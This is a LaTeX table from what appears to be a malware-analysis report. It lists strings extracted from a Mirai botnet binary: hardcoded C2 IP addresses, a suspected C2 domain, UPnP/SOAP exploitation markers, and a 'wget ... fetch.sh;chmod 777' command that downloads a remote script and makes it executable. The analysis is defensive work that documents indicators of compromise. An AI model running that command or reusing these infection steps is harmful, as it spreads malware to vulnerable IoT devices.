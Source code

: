 \documentclass{article}
\begin{document}
\subsubsection{Summary of Embedded Strings}
\begin{table}[H]
  \centering
  \label{tab:mirai-strings}
  \begin{tabular}{|p{4cm}|p{2.5cm}|p{1.5cm}|p{6cm}|}
    \hline
    \textbf{String / Artifact} & \textbf{What it Represents} & \textbf{Figure} & \textbf{Interpretation for Mirai} \\
    \hline
    HTTP methods: \texttt{GET}, \texttt{POST} & Web request methods & Fig.~\ref{fig:mirai-network-info} & Used for HTTP communication to a C2 server \\
    \hline
    \texttt{Cookie: PHPSESSID} & PHP session cookie & Fig.~\ref{fig:mirai-php-cookie} & Suggests Mirai maintains stateful sessions with its C2 server \\
    \hline
    \texttt{79.124.8.24} and \texttt{79.124.18.20} & Hardcoded IP addresses & Fig.~\ref{fig:mirai-ip-add-1} and Fig.~\ref{fig:mirai-ip-add-2} & Bypasses DNS lookups and potentially calls to C2 servers \\
    \hline
    \texttt{<NewRemoteHost>} and \texttt{<NewProtocol>TCP} & Embedded configuration fields & Fig.~\ref{fig:mirai-remote-host} & Possible preconfigured C2 host and TCP protocol settings \\
    \hline
    \texttt{SOAPAction: http://purenetworks.com} & SOAP web service call & Fig.~\ref{fig:mirai-remote-host} & Disguises traffic as SOAP to possibly target SOAP IoT devices \\
    \hline
    \texttt{SOAPAction: urn:schemas-upnp} & UPnP SOAP action & Fig.~\ref{fig:mirai-remote-host} & Suggests Mirai spreads via UPnP exploitation on IoT devices \\
    \hline
    \texttt{/proc/net/tcp} & Linux system file listing TCP sockets & Fig.~\ref{fig:mirai-ip-add-2} & Used to scan or monitor active network connections to potentially spread \\
    \hline
    \texttt{iotsecurity.xyz} & Hardcoded domain & Fig.~\ref{fig:mirai-ip-add-2} & A possible C2 domain \\
    \hline
    \texttt{wget http://79.124.8.24/ fetch.sh;chmod 777} & Shell command & Fig.~\ref{fig:mirai-ip-add-1} & Downloads a shell script and makes it executable. \\
    \hline
    \texttt{GET /linuxki443/ experimental/vis /ki443vis.php} & PHP script path on a remote server & Fig.~\ref{fig:mirai-ip-add-1} & Used to contact a PHP script, possibly for receiving commands or downloading payloads \\
    \hline
  \end{tabular}
  \caption{Detailed summary of embedded strings in the Mirai binary.}
\end{table}
\end{document}
